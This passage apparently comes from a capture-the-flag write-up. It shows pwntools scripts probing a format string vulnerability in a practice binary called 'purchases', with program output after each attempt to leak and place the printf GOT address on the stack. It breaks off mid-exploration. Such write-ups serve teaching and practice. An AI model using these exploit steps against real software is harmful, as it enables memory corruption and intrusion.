 ```
You don't have any money to buy @@s. You're wasting your time! We don't even sell @@s. Leave this place and buy @@ somewhere else. Get out!
```
Use `print hex(printf_address)` we get `0x404040`

But `print p64(printf_address)` we get `@@@\x00\x00\x00\x00\x00`

That is because C compiler see the null byte `\x00` so it print 2 characters then it stops

So we change our plan, is to put the address after the Format String `%8$p`
```python
from pwn import *
elf = ELF('./purchases')
printf_address = elf.symbols['got.printf']	# Get the printf address
p = elf.process()
p.recvuntil("purchase? ")
p.sendline('%8$p'+p64(printf_address))		# Convert the address to string
print p.recv()
```
But the output is not correct:
```
You don't have any money to buy 0x404070243825@@s. You're wasting your time! We don't even sell 0x404070243825@@s. Leave this place and buy 0x404070243825@@ somewhere else. Get out!
```
We guess the Format String must be in 8 bytes format:
```
Before:
[      8th argument    ][          9th argument        ]
[%][8][$][p][40][40][40][00][00][00][00][00]...

After:
[      8th argument    ][          9th argument        ]
[%][8][$][p][ ][ ][ ][ ][40][40][40][00][00][00][00][00]
```
We added four space into the format string and change `%8$p` to `%9$p` because 9th argument
```python
from pwn import *
elf = ELF('./purchases')
printf_address = elf.symbols['got.printf']	# Get the printf address
p = elf.process()
p.recvuntil("purchase? ")
p.sendline('%9$p    '+p64(printf_address))		# Convert the address to string
print p.recv()
```
But the output lost one byte:
```
You don't have any money to buy 0x4040    @@s. You're wasting your time! We don't even sell 0x4040    @@s. Leave this place and buy 0x4040    @@ somewhere else. Get out!
```
We're confuse about this, we try to delete the null bytes:
```python
p.sendline('%9$p    '+p64(printf_address)[:3])
```
And the output is almost correct:
```
You don't have any money to buy 0x7f0000404040    @@@s. You're wasting your time! We don't even sell 0x7f0000404040    @@@s. Leave this place and buy 0x7f0000404040    @@@ somewhere else. Get out!
```
I guess we overwritten some address in the stack
